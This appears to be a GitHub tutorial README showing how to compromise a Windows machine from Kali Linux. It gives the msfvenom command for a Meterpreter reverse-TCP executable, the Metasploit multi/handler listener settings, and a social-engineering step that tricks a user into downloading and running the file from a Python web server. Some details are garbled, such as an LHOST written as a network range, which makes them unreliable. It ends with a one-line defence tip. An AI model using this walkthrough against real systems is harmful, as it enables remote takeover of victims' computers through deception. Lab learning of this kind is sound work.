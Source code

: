 # windows-hacking
WINDOWS AND LINUX HACKING

		
Create metasploit:

Before creating the metasploit, we need to figure out what is our Kali Linux local IP.
For that, run  “ip addr”  or  “ifconfig”
![image](https://github.com/user-attachments/assets/f5e84bbf-46d3-4ce6-b433-0c35288705fa)

 
In the terminal run the follow command:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.0/24 LPORT=4444 –f exe > reverse_shell.exe
![image](https://github.com/user-attachments/assets/1e650a7e-9308-48b6-be77-7e482e8eadc0)

 

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine that we got in the last command, and the LPORT is the port to listen on for a connection from the target once it has been compromised.
The name of the .exe is up to you. In this case I’ll be using reverse_shell.exe because our target will be a only for test purpose.

Connection:


We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command msfconsole on the Kali Linux terminal.
![image](https://github.com/user-attachments/assets/659e1ce5-8860-4f95-8c75-62ee6d1ce198)

 
The screenshot below shows what commands to issue within Metasploit. First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command “use multi/handler”. We will then set the payload to match the one set within the executable using the command “set  payload windows/meterpreter/reverse_tcp”. We will then set the LHOST and LPORT this way — “set LHOST 192.168.47.152”and  “set  LPORT 4444”. Once done, type ```run``` or ```exploit```and press Enter.
The screenshot below displays the output. The reverse TCP handler should begin waiting for a connection.
![image](https://github.com/user-attachments/assets/57dae01d-54fe-45e2-b071-0a04e5315e80)

You can use show “options” command  to check if everything’s ok
![image](https://github.com/user-attachments/assets/3f18bc7f-c2b6-4388-9cb0-6219b44c6b09)


If everything’s ok type run or exploit
![image](https://github.com/user-attachments/assets/99756288-e6f7-4914-9cbc-caef4fafc2b4)

 

Social Engineer:


Now it’s the part that you need to do some social engineer in order to make the user execute the program.
For this tutorial we will simply host the .exe on python3 and transfer it on the Windows Machine.
![image](https://github.com/user-attachments/assets/f59d1b56-0155-42ee-a8e2-958d098eb64d)

 
On the Windows machine you just need to access via the browser the IP/File.exe
In our case is 192.168.o.o/24:8888/reverse_shell.exe .  Host  in python

![image](https://github.com/user-attachments/assets/0ffef250-39db-4dc3-a5d7-4aed0dfccd94)



 
Now execute and check the connection on the Kali Machine.
![image](https://github.com/user-attachments/assets/957c6ca9-9f2f-46fd-b35d-2f09ae9c1591)


 

 

Successfully compromise my windows machine using kali linux. It is only for educational purpose only.

How to Protect:
For this type of attacks the most important thing is to have the Firewall enabled. Windows Defender makes a good job protecting files like this.


